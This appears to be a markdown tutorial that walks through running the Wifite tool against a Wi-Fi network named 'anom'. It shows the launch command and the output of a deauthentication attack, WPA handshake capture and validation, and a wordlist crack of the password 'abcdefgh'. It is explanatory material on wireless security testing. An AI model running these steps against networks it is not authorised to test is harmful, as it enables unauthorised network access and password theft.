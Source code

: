 # Wifite

Wifite is a really neat tool for those who want faster pawning without
the need of running command one by one. Though there are some bugs that
might happen if you didn't have dependencies for it.

Outside of Kali linux, you might want to add other programs like
`wireshark`,`hxctools`,`cowpatty`,`aircrack-ng` for this script to
run properly.

Since this is a script, you might want to use this in Kali instead
in your normal Linux daily driver. To use Wifite you have to type
` sudo ./Wifite.py`, remember to use `sudo` since you need root
privilege to run this script, it's because some dependencies want
root user privilege to change your wifi to monitor mode.

This command will execute wifite to `anom` ESSID.

```
$ sudo ./Wifite.py -e anom
```

## Results

After you run wifite, you'll get result that will be broken down here.

Banner and option are mentioned here, since I use `-e` as an option, it'll
automatically use `anom` as target ESSID.

```
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [+] option: targeting ESSID anom
 [!] Conflicting processes: #####
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)
```

As you might see above, there might be some conflicting PID that are running
in the background, you might need to specify `--kill` to run this script
again, otherwise, you can just follow through.

After changing to monitor mode, it'll then start using deauth attack to
get wpa handshake. Manually, you might be using `airodump-ng` in conjunction
with `aireplay-ng`. It'll then save your handshake information inside
`hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap`.

```
 [+] Using wlp1s0mon already in monitor mode

 [+] Scanning. Found 0 target(s), 0 client(s). Ctrl+C when ready
 [+] found target MA:C0:AD:DR:ES:S0 (anom)

 [+] (1/1) Starting attacks against MA:C0:AD:DR:ES:S0 (anom)

 [+] anom (67db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (0db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (76db) WPA Handshake capture: Captured handshake
 [+] saving copy of handshake to hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap saved
```

`airodump-ng` and `aireplay-ng` are used for capturing handshake and
saving that handshake into a file, after this, it'll then start
using `tshark`, `pyrit`, `cowpatty`, `aircrack` to then check if
the handshake captured are a valid handshake.

```
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for MA:C0:AD:DR:ES:S0
 [!]    pyrit: .cap file does not contain a valid handshake
 [!] cowpatty: .cap file does not contain a valid handshake
 [!] aircrack: .cap file does not contain a valid handshake
```

After cross-checking all handshakes contained in the file, it'll start
aircrack-ng to do password cracking, it'll take some time if your
password is good enough. Here I will use a really complicated password
`abcdefgh` a really strong and complicated password (please don't use
this kind of password, since it'll be cracked in no seconds.).

```
 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist
 [+] Cracking WPA Handshake: 95.17% ETA: 0s @ 2588.2kps (current key: scofield)
 [+] Cracked WPA Handshake PSK: abcdefgh
```

*Jokes* aside, the result then will be generated in formats below.

```
 [+]   Access Point Name: anom
 [+]  Access Point BSSID: MA:C0:AD:DR:ES:S0
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap
 [+]      PSK (password): abcdefgh
 [+] saved crack result to cracked.txt (2 total)
 [+] Finished attacking 1 target(s), exiting
 ```

